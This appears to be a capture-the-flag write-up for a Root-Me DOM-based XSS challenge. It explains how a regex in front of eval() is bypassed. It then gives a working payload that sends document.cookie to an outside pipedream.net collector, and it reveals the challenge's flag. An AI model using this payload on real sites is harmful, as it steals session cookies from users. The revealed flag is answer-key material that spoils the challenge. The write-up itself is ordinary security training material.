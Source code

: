 # XSS DOM Based - Eval

In this chall, you will be provided with a calculator that can add, substract, multiply and divide. There is only one input field so we will attack on that.

![anh1](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Based_Eval1.png)

Enter a string and this is what you'll get.

![anh2](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Based_Eval2.png)

If you look carefully, the regex is not very hard to bypass. Just enter an expression at the start of the input, after that we can do anything we want.

Now I wil tell you how to solve this challenge. The `eval()` function can execute one or more commands in only one call like this:
`eval(<expression1>,<expression2>,<expression3>)`. For example, if you use `eval(alert(1),alert(2))`, you will get 2 popup alert box. So we will leverage this and solve this challenge. The payload to exploit this challenge will be like `1+1,<your payload>`. We use `1+1` to bypass the regex, after that we will use `,` to pass another parameter to the `eval()` function, that is our payload. However, if you use alert(), you will get this:

![anh3](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Based_Eval3.png)

The `()` is filtered, so I used `document.location` to XSS, and It's success! The payload I used to solved this challenge is  

```javascript

1+1,document.location="https://eo3f8xwoiu4uj8s.m.pipedream.net/?"+document.cookie

```

Wait for a short time and the flag is arrived :D

![anh4](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Based_Eval4.png)

Flag is `rootme{Eval_Is_DangER0us}`

![anh5](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Based_Eval5.png)